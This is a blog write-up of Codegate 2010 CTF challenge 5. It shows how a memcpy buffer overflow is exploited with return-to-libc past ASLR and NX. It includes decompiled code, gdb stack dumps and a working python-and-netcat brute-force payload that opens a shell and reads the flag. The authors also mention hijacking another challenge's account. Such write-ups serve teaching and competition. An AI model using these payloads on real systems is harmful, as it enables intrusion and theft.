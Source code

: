 ```yaml
---
title: 'Codegate 2010 online CTF &#8211; Challenge 4 &amp; 5 writeup'
author: longld
layout: post

aktt_notify_twitter:
  - no
tweetbackscheck:
  - 1408358984
shorturls:
  - 'a:4:{s:9:"permalink";s:81:"http://www.vnsecurity.net/2010/03/codegate-2010-online-ctf-challenge-4-5-writeup/";s:7:"tinyurl";s:26:"http://tinyurl.com/yevgbt5";s:4:"isgd";s:18:"http://is.gd/aOugw";s:5:"bitly";s:20:"http://bit.ly/cXsba1";}'
twittercomments:
  - 'a:15:{i:10669477304;s:7:"retweet";i:10576939772;s:7:"retweet";i:10576509003;s:7:"retweet";i:10574391696;s:7:"retweet";i:10574255769;s:7:"retweet";i:10570427157;s:7:"retweet";i:10567867606;s:7:"retweet";i:10566679249;s:7:"retweet";i:10566402877;s:7:"retweet";i:10566331495;s:7:"retweet";i:10566131337;s:7:"retweet";i:10566057902;s:7:"retweet";i:10566052947;s:7:"retweet";i:10565532796;s:7:"retweet";i:10565472354;s:7:"retweet";}'
tweetcount:
  - 15
category:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - aslr
  - CLGT
  - codegate
  - CTF
  - 'CTF - CLGT Crew'
  - return-to-libc
---
```

# Summary

Challenge 4 has a basic buffer overflow vulnerability running on modern Ubuntu Linux with ASLR. Challenge 5 shares the same code as Challenge 4 but added NX protection to make it harder. In challenge 4 we use ret2eax to by pass ASLR and return-to-libc technique to bypass NX in challenge 5 with brute-forcing for execl() libc address. We had to access to the server (hijack account of Challenge #2) to search for execl() address, it&#8217;s weakness of our solution for challenge 5.

# Analysis

Challenge 4 information:

> credentials: ctf4.codegate.org 9000  
> BINARY FILE:  http://ctf.codegate.org/files\____/easy

Challenge 5 information:

> credentials: ctf4.codegate.org 9001  
> BINARY FILE:  http://ctf.codegate.org/files\____/harder

Both &#8220;easy&#8221; and  &#8220;harder&#8221; share the same code which looks like below:

<pre class="brush: cpp; highlight: [17]; title: ; notranslate" title="">int __cdecl main()
{
 size_t n; // [sp+18h] [bp-8h]@1
 char *lineptr; // [sp+1Ch] [bp-4h]@1

 lineptr = 0;
 printf("Input: ");
 fflush(0);
 getline(&lineptr, &n, stdin);
 func(lineptr, n);
 return puts("nThanks. Goodbye");
}

void *__cdecl func(const void *src, size_t n)
{
 char dest[264]; // [sp+10h] [bp-108h]@1
 return memcpy(dest, src, n);
}
</pre>

The traditional BOF at memcpy() in func() with 272 bytes allows us to overwrite the saved EIP to control program execution. Exploit for &#8220;easy&#8221; is obvious, you can find a writeup <a href="http://coma.0x3f.net/uncategorized/codegate2010-ctf-level-4/" target="_blank">here</a>, remain of this post will talk about Challenge 5.

The problem for exploiting &#8216;harder&#8217; is to bypass:

*   ASLR
*   NX protection

We will use return-to-libc technique to overcome that.

# Solution/Exploit

In order to exploit the &#8220;harder&#8221; we have to:

*   Locate address of execl() function in libc
*   Locate address of &#8220;/bin/sh&#8221; somewhere in memory
*   Arrange stack to call execl(&#8220;/bin/sh&#8221;, &#8230;) when return from func()

## Locate address of execl()

Based on our experience in Padocon 2010 pre-qual, we know that random mmap library address will repeat after several run.

<pre>$ gdb harder
(gdb) start
Temporary breakpoint 1, 0x0804850e in main ()
(gdb) p execl
$1 = {&lt;text variable, no debug info&gt;} 0x1a70c0 &lt;execl&gt;
(gdb) quit</pre>

## Locate address of &#8220;/bin/sh&#8221;

There&#8217;s several way to find &#8220;/bin/sh&#8221; pointer according to other contestants discussed in #codegate IRC:

*   Find &#8220;/bin/sh&#8221; address in RO_DATA of libc
*   Put &#8220;/bin/sh&#8221; in our input buffer then find stack address that points to it (address of &#8220;dest&#8221; in func())
*   Put &#8220;/bin/sh&#8221; in our input buffer then re-use &#8220;*lineptr&#8221; (already point to our buffer) remain in stack. This is our method.

Let examine the stack when we&#8217;re in func():

<pre>(gdb) disass func
Dump of assembler code for function func:
0x080484e4 &lt;func+0&gt;:    push   ebp
0x080484e5 &lt;func+1&gt;:    mov    ebp,esp
0x080484e7 &lt;func+3&gt;:    sub    esp,0x118
0x080484ed &lt;func+9&gt;:    mov    eax,DWORD PTR [ebp+0xc]      &lt;-- n
0x080484f0 &lt;func+12&gt;:   mov    DWORD PTR [esp+0x8],eax
0x080484f4 &lt;func+16&gt;:   mov    eax,DWORD PTR [ebp+0x8]      &lt;-- src's address (*lineptr)
0x080484f7 &lt;func+19&gt;:   mov    DWORD PTR [esp+0x4],eax
0x080484fb &lt;func+23&gt;:   lea    eax,[ebp-0x108]              &lt;-- dest's address
0x08048501 &lt;func+29&gt;:   mov    DWORD PTR [esp],eax
0x08048504 &lt;func+32&gt;:   call   0x80483f8 &lt;memcpy@plt&gt;
0x08048509 &lt;func+37&gt;:   leave
0x0804850a &lt;func+38&gt;:   ret
End of assembler dump.

(gdb) b *0x08048504
Breakpoint 1 at 0x8048504
(gdb) r
Starting program: /tmp/harder
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048504 in func ()
(gdb) x/20x $ebp
0xbffff738:     0xbffff768      0x08048568      0x0804b008      0x00000078
                                                [*lineptr] (2)
0xbffff748:     0x00d5b420      0xbffff768      0x00c49345      0x006c2d20
0xbffff758:     0x00000078      0x0804b008      0x08048590      0x00000000
                                [*lineptr] (1)  [garbage str]
0xbffff768:     0xbffff7e8      0x00c30b56      0x00000001      0xbffff814
0xbffff778:     0xbffff81c      0xb7fff858      0xbffff7d0      0xffffffff

(gdb) x/8x 0x0804b008
0x804b008:      0x41414141      0x41414141      0x41414141      0x41414141
0x804b018:      0x41414141      0x41414141      0x41414141      0x41414141</pre>

Address of *lineptr is **0x0804b008** which point to our buffer. There&#8217;s two instances of *lineptr address on stack: (1) returned from getline(), (2) placed before calling func(). The (2) address is useless because it&#8217;s next to ret, the (1) address with next 2 addresses **0&#215;08048590**, **0&#215;00000000** is perfect for execl(). What we need to do is lift the esp to correct address with few ret.

## Arrange buffer & stack

With all the things above, we can craft our buffer as below:

<pre>["/bin/sh" | padding | ret*6 | execl() | "n"]</pre>

This will result on stack when return from func():

<pre>[ret*6 | execl() | 0xdeadbeef | "/bin/sh" | "garbage string" | 0 ]</pre>

## Exploit

<pre>while true; do
 (python -c 'print "/bin/shx00" + "A"*260 + "x75x85x04x08"*6 + "xc0x70x1ax00" + "n"'; cat) | nc ctf4.codegate.org 9001
done
Input:
Input:
Input:

id
uid=1004(harder) gid=1004(harder)
cat /home/harder/flag.txt
e2e4cb6adc9cd761dcde774f84529591  -</pre>

# References

*   <a href="http://neworder.box.sk/newsread.php?newsid=13007" target="_blank">http://neworder.box.sk/newsread.php?newsid=13007</a>
*   <a href="http://0xbeefc0de.org/papers/fc3_bof.txt" target="_blank">http://0xbeefc0de.org/papers/fc3_bof.txt</a>

Keywords: return-to-libc, aslr, esp lifting, codegate 2010